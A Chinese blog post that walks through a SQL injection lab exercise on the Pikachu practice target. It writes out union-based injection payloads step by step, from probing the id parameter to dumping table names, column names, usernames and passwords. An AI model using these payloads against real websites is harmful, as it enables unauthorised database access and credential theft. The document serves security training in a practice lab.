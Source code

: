 ```yaml
---
layout:     post
title:      TimeLineSec安全教程（一）————SQL注入
subtitle:   记录做靶机的过程和过程中的积累
date:       2020-02-24
author:     Ultimater
header-img: img/post-bg-20191109.jpg
catalog: true
tags:
    - 网络安全
    - TimeLine Sec
---
```


>**感谢 TimeLine Sec 组织的此次基础教程实验，帮助众多安全人员巩固基础和提升技能，尤其对我这样的入门者，更是一个从理论向实践发展的好的契机！同时，MS08067安全实验室出版的《Web安全攻防——渗透测试实验指南》作为我实验过程中用来随时随地加深理论认知的书籍，内容详实清晰，循序渐进，起到了巨大的作用，特此感谢！**

### 一、前言

SQL注入就是指Web应用程序对用户输入数据的合法性没有判断，前端传入后端的参数是攻击者可控的，并且参数带入数据库查询，攻击者可以通过构造不同的SQL语句来实现对数据库的任意操作。SQL注入按照不同的分类方法可以分为很多种，如报错注入、盲注、Union联合注入等。

本次 TimeLine Sec 的SQL注入实验靶机为 pikachu ，该靶场涉及到很多漏洞种类，感兴趣的可以自行在本地搭建练习，详情见[Pikachu搭建教程](https://mp.weixin.qq.com/s/z87ddIq79BlwSXNt0cMF2w)

### 二、数字型注入

![20200304212847.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/20200304212847.png)

1.页面抓包之后，在参数`id`处输入`1'`判断是否存在注入

![1.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/1.png)

2.根据`1' and 1=1`和`1' and 1=2`的返回信息判断是数字型注入

![20200304214711.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/20200304214711.png)

![2.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/2.png)

3.`order by 3`判断列数

![3.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/3.png)

4.用union联合注入，`id=-1 union select 1,2`判断输出位置（此时union的前一个条件为假）

![4.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/4.png)

5.union注入获取数据库`id=-1 union select database(),2`

![9O@V5@SSFXIVTWL%`LE}@2Y.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/9O%40V5%40SSFXIVTWL%25%60LE%7D%402Y.png)

6.构造语句爆表名
`id=-1 union select (select table_name from information_schema.tables where table_schema='pikachu' limit 3,1),2`

![20200304215417.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/20200304215417.png)

7.构造语句爆列名
`id=-1 union select (select column_name from information_schema.columns where table_schema='pikachu' and table_name='users' limit 1,1),2`

![A400U3PIJ6975{7C53L3Q18.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/A400U3PIJ6975%7B7C53L3Q18.png)

8.获取用户名
`id=-1 union select (select group_concat(username) from pikachu.users),2`

![20200304215626.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/20200304215626.png)

9.获取用户密码
`id=-1 union select (select group_concat(password) from pikachu.users),2`

![5.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/5.png)












